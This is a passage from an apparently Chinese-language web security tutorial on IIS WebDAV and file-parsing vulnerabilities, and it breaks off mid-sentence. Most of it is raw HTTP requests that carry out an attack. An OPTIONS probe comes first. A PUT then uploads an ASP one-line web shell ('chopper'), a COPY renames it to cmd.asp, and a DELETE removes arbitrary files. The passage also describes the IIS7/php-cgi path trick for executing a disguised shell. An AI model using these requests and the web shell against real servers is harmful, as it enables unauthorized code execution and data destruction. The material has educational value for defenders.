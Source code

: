 ###### 通过`OPTIONS`探测服务器所支持的HTTP方法
```
请求：
OPTIONS / HTTP/1.1
Host:www.example.com

响应：
。。。
Allow:OPTIONS,TRACE,GET,HEAD,DELETE,PUT,POST,COPY,MOVE,MKCOL,PROPFIND,PROPPATCH,LOCK,UNLOCK,SEARCH
。。。
```


###### 通过`PUT`方法向服务器上传脚本文件

```
请求：
PUT /a.txt HTTP/1.1
Host:www.example.com
Content-Length:30

<%eval request("chopper")%>
```

###### 通过`Move`或`Copy`方法改名
```
请求：
COPY /a.txt HTTP/1.1
Host:www.example.com
Destination:http://www.example.com/cmd.asp
```

###### 使用`DELETE`方法，攻击者还可以删除服务器上的任意文件
```
请求：
DELETE /a.txt HTTP/1.1
Host:www.example.com
```

> 桂林老兵曾写过一款针对WebDav漏洞的软件:`IIS Write`,利用这款软件,可以快速探测服务器是否存在WebDav漏洞

#### IIS7.0以上
##### 原理
* `IIS7.0/7.5`是对`php解析`时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串”`/任意文件名.php`”就**会按照`php`的方式去解析**。（例如：`webshell.jpg/x.php`）

```
IIS7.0(Win2008R1+IIS7.0)
IIS7.5(Win2008R2+IIS7.5)
```

* IIS的解析漏洞不像Apache那么模糊，针对IIS6.0，只要文件名不被重命名基本都能搞定。这里要注意一点，对于”`任意文件名/任意文件名.php`”这个漏洞其实是出现自`php-cgi `的漏洞， 所以其实跟IIS自身是无关的。

##### 利用
* 将shell语句，如  
